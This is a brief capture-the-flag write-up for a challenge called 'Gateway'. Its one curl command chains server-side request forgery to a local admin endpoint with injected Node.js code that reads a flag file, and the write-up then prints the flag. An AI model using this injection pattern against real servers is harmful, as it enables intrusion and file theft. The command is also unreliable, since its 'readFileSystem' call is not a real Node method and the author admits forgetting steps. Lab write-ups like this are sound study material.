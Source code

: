 # Gateway
## Challenge
- **Solves**: 19
- **Name**: Gateway
- **Points**: 116

## Description
Jeg synes du skal (eval)uere min nye super krypterede proxy:  
[http://gateway.hkn](http://gateway.hkn)  

**NOTE**: Create a user and find the VPN and Browser LABs on Campfire Labs

## Solution
I used this command to get the flag and bypass the blacklist:  
```bash
curl -X POST http://gateway.hkn/fetch -d "site=http://0.0.0.0/admin?command=require('fs').readFileSystem('/home/node/app/flag.txt', 'utf8')"
```

## Flag
`DDC{wh1tel1sts_ar3_c00l}`

**Note**: This writeup is a little short. I don’t remember all the steps to how I did it. If you really want the full writeup, then DM me and I’ll see what I can do.